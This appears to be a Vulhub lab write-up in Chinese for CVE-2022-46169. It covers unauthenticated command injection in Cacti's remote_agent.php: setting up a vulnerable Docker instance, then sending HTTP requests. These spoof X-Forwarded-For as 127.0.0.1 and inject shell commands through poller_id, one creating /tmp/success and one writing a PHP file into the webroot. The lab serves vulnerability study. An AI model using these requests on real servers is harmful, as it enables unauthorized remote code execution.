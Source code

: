 # Cacti remote_agent.php 前台命令注入漏洞 CVE-2022-46169

Cacti是一个服务器监控与管理平台。在其1.2.17-1.2.22版本中存在一处命令注入漏洞，攻击者可以通过X-Forwarded-For请求头绕过服务端校验并在其中执行任意命令。

参考链接：

- https://github.com/Cacti/cacti/security/advisories/GHSA-6p93-p743-35gf
- https://mp.weixin.qq.com/s/6crwl8ggMkiHdeTtTApv3A

## 漏洞环境

Vulhub执行如下命令启动一个Cacti 1.2.22版本服务器：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`会跳转到登录页面。使用admin/admin作为账号密码登录，并根据页面中的提示进行初始化。

实际上初始化的过程就是不断点击“下一步”，直到安装成功：

![image-20221228090322979](images/image-20221228090322979-167884614486415.png)

这个漏洞的利用需要Cacti应用中至少存在一个类似是`POLLER_ACTION_SCRIPT_PHP`的采集器。所以，我们在Cacti后台首页创建一个新的Graph：

![image-20221228090831131](images/image-20221228090831131-167884614658917.png)

选择的Graph Type是“Device - Uptime”，点击创建：

![image-20221228091535103](images/image-20221228091535103-167884614839619.png)

## 漏洞利用

完成上述初始化后，我们切换到攻击者的角色。作为攻击者，发送如下数据包：

```
GET /remote_agent.php?action=polldata&local_data_ids[0]=6&host_id=1&poller_id=`touch+/tmp/success` HTTP/1.1
X-Forwarded-For: 127.0.0.1
Host: localhost.lan
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 2
```

![image-20221228092519319](images/image-20221228092519319-167884615245021.png)

虽然响应包里没有回显，但是进入容器中即可发现`/tmp/success`已成功被创建：

![image-20221228093004203](images/image-20221228093004203-167884615428523.png)

写入webshell：

```
GET /remote_agent.php?action=polldata&local_data_ids[0]=6&host_id=1&poller_id=`echo+'<?php+phpinfo();?>'>/var/www/html/test.php` HTTP/1.1
```

